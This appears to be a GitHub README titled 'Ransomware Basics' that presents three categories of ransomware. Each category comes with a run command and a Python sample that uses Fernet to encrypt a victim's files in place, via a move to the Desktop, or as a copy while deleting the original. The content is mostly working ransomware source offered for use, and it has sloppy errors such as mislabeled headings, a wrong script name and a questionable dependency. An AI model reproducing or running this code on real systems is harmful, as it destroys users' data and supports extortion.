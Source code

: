 # Ransomware Basics

## How to install dependencies
``` 
python -m pip install fernet
```
## Category 1 
This type of ransomware opens a file, reads the contents and then writes the encryption into the file, thus overwriting it. This means that the content of the file is encrypted, but not necessarily the file itself, the file might not even be renamed.

### Running Category 1
``` 
python cat1.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat1.py)
```python
def encrypt_file(key, file_name):
    with open(file_name, 'rb') as f:
        plain_text = f.read()
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(file_name, 'wb') as f:
        f.write(cipher_text)
```

#### Result
Coming soon

## Category 2 
The file to be encrypted is moved to another directory where the ransomware encrypts the file, then moves the same file back into the original directory. Here the file might also be renamed.

#### Running Category 1
``` 
python cat2.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat2.py)
```python
def encrypt_file(key, file_name):
    new_file_location = os.path.join(os.path.join(os.environ['USERPROFILE']), 'Desktop') 
    new_file_location_path = new_file_location + '\\' + os.path.basename(file_name)
    os.rename(os.path.abspath(file_name), new_file_location_path)

    with open(new_file_location_path, 'rb') as f:
        plain_text = f.read()
    
    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(new_file_location_path, 'wb') as f:
        f.write(cipher_text)
    
    os.rename(new_file_location_path, os.path.abspath(file_name))
```

#### Result
Coming soon

## Category 3 
Here the original file is read and a new encrypted file is made based on the original, next the original is overwritten or deleted

#### Running Category 1
``` 
python cat2.py
```

#### [Sample](https://github.com/JACTheCreator/RansomwareBasics/blob/master/cat3.py)
```python
def encrypt_file(key, file_name):
    encrypted_file_name = os.path.splitext(file_name)[0] + '_encrypted' + os.path.splitext(file_name)[1]
    with open(file_name, 'rb') as f:
        with open(encrypted_file_name, 'wb') as f_enc:
            plain_text = f.read()
            f_enc.write(plain_text)

    cipher_suite = Fernet(key)
    cipher_text = cipher_suite.encrypt(plain_text)

    with open(encrypted_file_name, 'wb') as f:
        f.write(cipher_text)
    
    os.remove(file_name)
```

#### Result
Coming soon
